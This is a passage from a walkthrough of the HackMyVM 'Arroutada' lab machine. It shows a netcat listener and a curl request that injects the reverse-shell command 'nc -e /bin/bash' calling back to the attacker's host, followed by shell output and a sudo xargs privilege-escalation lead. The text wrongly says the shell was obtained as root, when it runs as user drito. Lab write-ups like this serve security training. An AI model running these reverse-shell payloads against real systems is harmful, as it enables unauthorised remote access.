 With this information, we can start a listener on our attack host and execute a reverse shell on the target.
```bash
┌──(pentester㉿kali)-[~/Arroutada]
└─$nc -lvnp 5555   
listening on [any] 5555 ...
```
We now send the reverse shell payload to the target.
```bash
┌──(pentester㉿kali)-[~/Arroutada/Misc Files]
└─$proxychains curl http://127.0.0.1:8000/priv.php -X POST -H 'Content-Type: application/json' -d '{"command":"nc -e /bin/bash 10.0.2.9 5555"}' 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  127.0.0.1:8000  ...  OK
```
Back to our listener, we shall see a reverse connection from the target. We can use this to read the user flag on the system.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Arroutada]
└─$nc -lvnp 5555   
listening on [any] 5555 ...
connect to [10.0.2.9] from (UNKNOWN) [10.0.2.12] 52422
id 
uid=1001(drito) gid=1001(drito) groups=1001(drito)
ls /home/drito
service
user.txt
web
```
## Post Exploitation
Once we obtain access to the target machine as the root user, we can continue our enumeration process now to take over the whole system. One easy way is to check for the user's sudo rights.
```bash
sudo -l
Matching Defaults entries for drito on arroutada:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User drito may run the following commands on arroutada:
    (ALL : ALL) NOPASSWD: /usr/bin/xargs
```

We can see that the user can run the xargs command as the root user. The command is written using its absolute path so it can't be spoofed. Since this command is new for us we visit [GTFOBin](https://gtfobins.github.io/gtfobins/xargs/#sudo) to see how we can exploit this command to obtain a root shell.
![](/assets/img/posts/walthrough/hackmyvm/2024-09-14-arroutada/gtfobin.png){: .center}
